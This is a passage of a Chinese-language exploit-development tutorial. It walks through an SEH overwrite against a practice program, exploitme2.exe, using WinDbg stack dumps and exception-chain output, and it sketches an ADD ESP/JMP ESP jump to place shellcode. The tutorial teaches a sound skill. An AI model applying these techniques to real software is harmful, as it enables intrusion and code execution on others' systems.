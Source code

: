 让我们重启exploitme2.exe来观察6d4是否是一个常数。在Memory窗口中的”Virtual:”下再次进入@esp+6d4同时你会看到它仍然指向我们的4个”b”字符。我们也可以观察到ESP总是不同的，即使偏移6d4并不改变。

因此，在4个”b”字符之后，我们可以将我们的shellcode放置在正确的位置，并且用如下一段代码中的地址替换那些”b”字符:

    
    
    ADD   ESP, 6d8
    JMP   ESP
    

注意我们已经使用了6d8，即6d4+4来跳过”b”字符并转移到我们将放置在替代”c”字符的shellcode上。当然，`ADD ESP,6e0`或类似的代码也将会被执行。不幸的是，找到这类代码并不容易，但这是一种更简单的方法。

重启exploitme2.exe，第二次按下F5并观察栈：

    
    
    0:000> dd esp
    002df45c  77c2b499 002df544 002dfb2c 002df594
    002df46c  002df518 002dfa84 77c2b4ad 002dfb2c
    002df47c  002df52c 77c2b46b 002df544 002dfb2c
    002df48c  002df594 002df518 62626262 00000000
    002df49c  002df544 002dfb2c 77c2b40e 002df544
    002df4ac  002dfb2c 002df594 002df518 62626262
    002df4bc  002e1000 002df544 00636948 00000000
    002df4cc  00000000 00000000 00000000 00000000
    

在esp+8上的dword值看起来挺有趣的。 如果我们观察那个地址我们可以了解到如下内容：

    
    
    0:000> db poi(esp+8)
    002dfb2c  61 61 61 61 62 62 62 62-63 63 63 63 63 63 63 63  aaaabbbbcccccccc
    002dfb3c  63 63 63 63 63 63 63 63-63 63 63 63 63 63 63 63  cccccccccccccccc
    002dfb4c  63 63 63 63 63 63 63 63-63 63 63 63 63 63 63 63  cccccccccccccccc
    002dfb5c  63 63 63 63 63 63 63 63-63 63 63 63 63 63 63 63  cccccccccccccccc
    002dfb6c  63 63 63 63 63 63 63 63-63 63 63 63 63 63 63 63  cccccccccccccccc
    002dfb7c  63 63 63 63 63 63 63 63-63 63 63 63 63 63 63 63  cccccccccccccccc
    002dfb8c  63 63 63 63 63 63 63 63-63 63 63 63 63 63 63 63  cccccccccccccccc
    002dfb9c  63 63 63 63 63 63 63 63-63 63 63 63 63 63 63 63  cccccccccccccccc
    

0x2dfb2c指向处理”b”字符的4个”a”字符。要记住的是”bbbb”覆写SEH节点的”handler”域，因此,0x2dfb2c必须指向相同SEH节点的“下一个SEH 节点”域。我们来检验该过程：

    
    
    0:000> !exchain
    002df470: ntdll!ExecuteHandler2+3a (77c2b4ad)
    002dfa84: MSVCR120!_ValidateRead+439 (6d52a0d5)
    002dfb2c: 62626262
    Invalid exception stack at 61616161
    

看起来似乎覆写了第三个SEH节点：

    
    
    0:000> dt _EXCEPTION_REGISTRATION_RECORD 002dfb2c
    ntdll!_EXCEPTION_REGISTRATION_RECORD
       +0x000 Next             : 0x61616161 _EXCEPTION_REGISTRATION_RECORD
       +0x004 Handler          : 0x62626262     _EXCEPTION_DISPOSITION  +62626262
    